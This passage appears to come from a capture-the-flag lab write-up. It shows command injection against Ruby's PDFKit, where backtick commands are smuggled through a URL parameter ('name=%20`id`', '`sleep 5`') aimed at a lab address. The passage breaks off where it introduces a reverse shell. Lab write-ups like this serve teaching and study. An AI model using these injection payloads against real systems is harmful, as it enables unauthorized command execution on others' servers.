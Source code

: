 

    PDFKit.new("http://example.com/?name=#{params[:name]}").pdf



The example attack version is:



    PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}")



Thinking about how the webserver might be built, it's fair to say that
it's getting a URL from the POST request, and sending that into a call
to `PDFKit.new` as shown above.

### POC

It's not clear to me where the `#{params[:name]}` comes from. That could
be a part of the POC exploit, or it could be that Ruby is parsing the
URL and rebuilding it like that. As I'm not sure, it's easy to try both.
I'll start by sending `id`. A bit of tinkering and eventually this URL
works:



    http://10.10.14.6/?name=%20`id`



The resulting PDF:

![](/img/image-20230517213305107.png)

It's not completely clear to me *why* the `%20` (URL-encoded space) has
to be at the start of the parameter. It seems to mostly be necessary if
there are spaces in the command I'm running.

### Shell

To get a shell, I'll change the URL to a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw):
